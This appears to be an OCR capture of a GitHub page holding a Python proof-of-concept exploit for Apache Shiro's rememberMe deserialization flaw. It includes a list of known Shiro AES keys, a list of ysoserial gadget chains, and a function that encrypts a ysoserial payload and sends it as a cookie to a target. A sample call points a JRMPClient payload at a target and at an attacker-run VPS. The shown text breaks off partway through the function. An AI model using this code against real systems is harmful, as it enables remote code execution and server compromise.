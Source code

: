 ```
    iv = uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext
poc('http://192.168.66.38:86','39.108.99.6:1099',keys[1],'JRMPClient')   #www.test.com替换成目标主机的链接，114.118.80.138替换成自己VPS的地址

```



自己改写了一下

```
#coding: utf-8
import sys
import os
import uuid
import base64
import subprocess
import requests
from Crypto.Cipher import AES

JAR_FILE = 'ysoserial.jar'
keys = ['Z3VucwAAAAAAAAAAAAAAAA==','kPH+bIxk5D2deZiIxcaaaA==','4AvVhmFLUs0KTA3Kprsdag==','3AvVhmFLUs0KTA3Kprsdag==','2AvVhdsgUs0FSA3SDFAdag==','wGiHplamyXlVB11UXWol8g==','fCq+/xW488hMTCD+cmJ3aQ==','1QWLxg+NYmxraMoxAXu/Iw==','ZUdsaGJuSmxibVI2ZHc9PQ==','L7RioUULEFhRyxM7a2R/Yg== ','6ZmI6I2j5Y+R5aSn5ZOlAA==','r0e3c16IdVkouZgk1TKVMg==','ZWvohmPdUsAWT3=KpPqda','5aaC5qKm5oqA5pyvAAAAAA==','bWluZS1hc3NldC1rZXk6QQ==','a2VlcE9uR29pbmdBbmRGaQ==','WcfHGU25gNnTxTlmJMeSpw==','LEGEND-CAMPUS-CIPHERKEY==','3AvVhmFLUs0KTA3Kprsdag==']
lis = ["BeanShell1","C3P0","Clojure","CommonsBeanutils1","CommonsCollections1","CommonsCollections2","CommonsCollections3","CommonsCollections4","CommonsCollections5","CommonsCollections6","FileUpload1","Groovy1","Hibernate1","Hibernate2","JBossInterceptors1","JRMPClient","JRMPListener","JSON1","JavassistWeld1","Jdk7u21","Jython1","MozillaRhino1","Myfaces1","Myfaces2","ROME","Spring1","Spring2","URLDNS","Wicket1",]


def poc(url, rce_command,key,func):
    if '://' not in url:
        target = 'https://%s' % url if ':443' in url else 'http://%s' % url
    else:
        target = url
    try:
        payload = generator(rce_command, JAR_FILE,key,func)  # 生成payload
        print payload.decode()
        r = requests.get(target, cookies={'rememberMe': payload.decode()}, timeout=10,verify=False)  # 发送验证请求
    except Exception, e:
        print(e)
        pass
    return False

def generator(command, fp,aeskey,func):
    if not os.path.exists(fp):
        raise Exception('jar file not found!')
    
    popen = subprocess.Popen(['java', '-jar', fp,func, command],stdout=subprocess.PIPE)
 
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = aeskey
    mode = AES.MODE_CBC
    iv = uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
```